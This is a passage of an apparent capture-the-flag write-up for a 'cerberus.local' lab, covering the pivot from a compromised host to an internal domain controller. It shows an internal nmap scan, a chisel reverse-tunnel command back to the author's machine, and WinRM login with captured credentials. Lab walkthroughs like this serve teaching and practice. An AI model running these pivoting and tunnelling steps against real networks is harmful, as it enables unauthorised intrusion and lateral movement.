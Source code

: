 ### Pivoting

Now we have credentials, but we don't have an avenue to use them. The `nmap` scan earlier only picked up on port 8080 being detectable from this machine. So, it is likely the next step is **port forwarding**. I downloaded the `nmap` binary onto the machine, and started to scan the internal networks.

Viewing the `/etc/hosts` file gave me the IP address of the DC:

```
root@icinga:/tmp# cat /etc/hosts
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local
```

I did a quick scan and found that the machine had port 5985 for WinRM open, meaning `evil-winrm` can be used to log in as `matthew`.&#x20;

```
root@icinga:/tmp# ./nmap_binary -p 1-10000 172.16.22.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-22 14:10 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:01:31 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 44.80% done; ETC: 14:14 (0:01:52 remaining)
Stats: 0:02:51 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 84.80% done; ETC: 14:14 (0:00:31 remaining)
Nmap scan report for DC.cerberus.local (172.16.22.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.12s latency).
Not shown: 9999 filtered ports
PORT     STATE SERVICE
5985/tcp open  unknown
MAC Address: 00:15:5D:5F:E8:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 186.05 seconds
```

We can port forward using `chisel`.&#x20;

```bash
# on my machine
chisel server -p 9001 --reverse
# on icinga
./chisel client 10.10.16.18:9001 R:5985:172.16.22.1:5985
```

Then we can `evil-winrm` in.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>
